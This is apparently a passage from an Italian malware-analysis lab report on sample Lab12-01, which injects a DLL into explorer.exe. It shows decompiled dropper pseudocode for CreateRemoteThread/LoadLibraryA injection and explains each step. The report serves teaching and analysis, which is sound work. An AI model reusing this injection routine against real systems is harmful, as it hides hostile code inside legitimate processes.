  
\includegraphics[width=0.7\textwidth]{../7.WindowsMalware/img/Injected_2.png}
  \caption{Importazioni della DLL iniettata (parte 2)}
\end{figure}

\subsection{Q2: Processo iniettato}

Analizzando il codice all'interno del disassemblatore, osserviamo che a un certo punto della routine viene effettuato un riferimento esplicito alla stringa \texttt{explorer.exe}, indicando che il malware inietta la DLL all'interno del processo di sistema legittimo della shell di Windows.

\begin{figure}[H]
  \centering
  
\includegraphics[width=0.7\textwidth]{../7.WindowsMalware/img/injected_process.png}
  \caption{Riferimento al processo \texttt{explorer.exe} in IDA Pro}
\end{figure}

\subsection{Terminare l'iniezione}

Simuliamo l'iniezione usando \texttt{BinText} come processo vittima e iniettando il payload tramite il tool \texttt{Xenos}:

\begin{figure}[H]
  \centering
  
\includegraphics[width=0.7\textwidth]{../7.WindowsMalware/img/injection_simulation.png}
  \caption{Simulazione dell'iniezione tramite Xenos}
\end{figure}

Utilizzando Process Explorer, possiamo analizzare in dettaglio l'avvenuta iniezione del modulo malevolo nel processo target:

\begin{figure}[H]
  \centering
  
\includegraphics[width=0.7\textwidth]{../7.WindowsMalware/img/injection_bintext.png}
  \caption{Verifica dell'iniezione su \texttt{explorer.exe} con Process Explorer}
\end{figure}

Per interrompere l'innesco ciclico dei pop-up, è stato sufficiente riavviare il processo di sistema compromesso ed eliminare fisicamente la DLL dal disco.

\subsection{Scopo del malware}

Esaminando lo pseudocodice del dropper:

\begin{lstlisting}[language=C]
// Step 1: Carica l'API per l'identificazione dei processi
LibraryA = LoadLibraryA(LibFileName);
EnumProcessModules = (int (__stdcall *)(_DWORD, _DWORD, _DWORD, _DWORD))GetProcAddress(LibraryA, ProcName);
v4 = LoadLibraryA(LibFileName);
GetModuleBaseNameA = (int (__stdcall *)(_DWORD, _DWORD, _DWORD, _DWORD))GetProcAddress(v4, aGetmodulebasen);
v5 = LoadLibraryA(LibFileName);
EnumProcesses = (int (__stdcall *)(_DWORD, _DWORD, _DWORD))GetProcAddress(v5, aEnumprocesses);

// Step 2: Costruisce il percorso completo della DLL da iniettare
GetCurrentDirectoryA(0x104u, Buffer);
lstrcatA(Buffer, String2);
lstrcatA(Buffer, aLab1201Dll);

// Step 3: Enumera i processi attivi nel sistema
if ( !EnumProcesses(dwProcessId, 4096, &v14) )
  return 1;

// Step 4: Ricerca del processo explorer.exe
v7 = v14 >> 2;
for ( i = 0; i < v7; ++i )
{
  hProcess = 0;
  if ( dwProcessId[i] )
    v17 = sub_401000(dwProcessId[i]);
  if ( v17 == 1 )
  {
    hProcess = OpenProcess(0x43Au, 0, dwProcessId[i]);
    if ( hProcess == (HANDLE)-1 )
      return -1;
    i = 2000;
  }
}

// Step 5: Esegue la process injection
lpBaseAddress = VirtualAllocEx(hProcess, 0, 0x104u, 0x3000u, 4u);
if ( !lpBaseAddress )
  return -1;
WriteProcessMemory(hProcess, lpBaseAddress, Buffer, 0x104u, 0);
hModule = GetModuleHandleA(ModuleName);
lpStartAddress = (LPTHREAD_START_ROUTINE)GetProcAddress(hModule, aLoadlibrarya);
if ( CreateRemoteThread(hProcess, 0, 0, lpStartAddress, lpBaseAddress, 0, 0) )
  return 0;
else
  return -1;
\end{lstlisting}

Il funzionamento del malware si articola in 5 fasi distinte:
\begin{enumerate}
  \item **Risoluzione dinamica delle API**: Carica la libreria \texttt{psapi.dll} per ottenere gli indirizzi delle funzioni di enumerazione moduli e processi.
  \item **Costruzione del path**: Recupera la directory corrente del file system per risalire al file \texttt{Lab12-01.dll}.
  \item **Enumerazione dei processi**: Richiama \texttt{EnumProcesses} per scorrere la lista di tutti i PID attivi.
  \item **Identificazione del target**: Scansiona i nomi dei moduli dei processi tramite la subroutine \texttt{sub\_401000} alla ricerca di \texttt{explorer.exe}. Trovato il processo, ne apre un handle con i privilegi necessari.
  \item **Iniezione della DLL**: Alloca spazio nello spazio di memoria virtuale del target (\texttt{VirtualAllocEx}), vi scrive il percorso della DLL (\texttt{WriteProcessMemory}), recupera l'indirizzo di \texttt{LoadLibraryA} di \texttt{kernel32.dll} ed esegue la libreria forzatamente nel processo target tramite \texttt{CreateRemoteThread}.
\end{enumerate}
